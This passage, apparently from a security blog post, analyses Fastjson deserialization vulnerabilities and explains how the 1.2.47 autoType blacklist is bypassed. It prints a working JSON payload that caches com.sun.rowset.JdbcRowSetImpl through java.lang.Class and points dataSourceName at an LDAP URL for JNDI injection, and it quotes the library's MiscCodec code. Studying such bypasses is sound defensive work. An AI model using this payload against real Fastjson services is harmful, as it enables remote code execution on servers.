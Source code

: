 
#### 1.2.45 - 1.2.46

* Patch

 A blacklist was added and no checkAutotype bypass occurred.

---

#### 1.2.47

***Why `@type` exist many times in payload***

^ @type can exists many fitmes because this is a part of `feature` autoType. This can be mapping `key: value` with key(@type) is class(value).

**<u>*What is `val`.*</u>**

^ This is a step to bypass this version.It took quite a while to figure out how to bypass this version according to other articles.

* Payload:

{% highlight java %}
                "{\n" +
                "    \"t1\": {\n" +
                "        \"@type\": \"java.lang.Class\", \n" +
                "        \"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    }, \n" +
                "    \"t2\": {\n" +
                "        \"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \n" +
                "        \"dataSourceName\": \"ldap://127.0.0.1:1389/w17ii2\", \n" +
                "        \"autoCommit\": true\n" +
                "    }\n" +
                "}"
{% endhighlight %}

* Explain:

With `t1` , `java.lang.Class` passed `checkAutoType` because this not exist in `denyHashCode`. So next step to help `t2` passed `checkAutoType`. Look!

com\alibaba\fastjson\serializer\MiscCodec.class

{% highlight java %}
                if (!"val".equals(lexer.stringVal())) {
                    throw new JSONException("syntax error");
                }

                lexer.nextToken();
                parser.accept(17);
                objVal = parser.parse();
                parser.accept(13);
{% endhighlight %}

Handle `key` (val) to get string base on `substring`. Value is `com.sun.rowset.JdbcRowSetImpl`.

It called loadClass(), becareful with here!

